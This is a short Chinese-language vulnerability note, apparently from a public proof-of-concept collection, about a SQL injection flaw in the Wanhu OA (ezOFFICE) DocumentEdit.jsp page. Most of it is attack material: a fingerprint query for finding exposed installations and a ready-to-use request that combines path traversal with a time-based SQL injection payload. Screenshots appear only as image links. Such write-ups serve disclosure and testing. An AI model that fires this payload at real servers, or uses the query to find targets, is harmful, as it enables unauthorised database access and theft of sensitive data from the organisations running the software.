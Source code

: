 # 

# 万户OA DocumentEdit.jsp SQL注入漏洞

## 漏洞描述

万户OA DocumentEdit.jsp文件存在SQL注入漏洞，攻击者通过发送特殊的请求包可以对数据库进行SQL注入，获取服务器敏感信息

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![1](./images/202209131047757.png)

验证POC

```
/defaultroot/iWebOfficeSign/OfficeServer.jsp/../../public/iSignatureHTML.jsp/DocumentEdit.jsp?DocumentID=1';WAITFOR%20DELAY%20'0:0:5'--
```

![1662358602569-71e26a34-726b-4d75-b683-225884ec7b4a](./images/202209131047397.png)

![3](./images/202209131047713.png)
